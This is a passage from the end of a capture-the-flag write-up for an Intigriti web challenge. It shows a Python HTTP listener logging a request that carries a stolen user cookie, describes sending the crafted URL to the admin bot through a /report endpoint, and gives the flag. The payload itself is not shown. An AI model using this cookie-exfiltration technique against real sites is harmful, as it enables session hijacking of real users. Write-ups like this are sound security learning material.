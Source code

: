 {% endcode %}

Note: you do need to URL-encode the `+` to `%2b` in the fetch request.

Checking the server logs, we get a hit containing the user cookie!

{% code overflow="wrap" %}

```bash
python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [27/Aug/2024 14:49:16] "GET /?cryptocatisthebest HTTP/1.1" 200 -
```

{% endcode %}

Finally, we just send the exact same URL to admin/bot using the `/report` endpoint and receive the _real_ flag 🚩

Flag: `INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}`
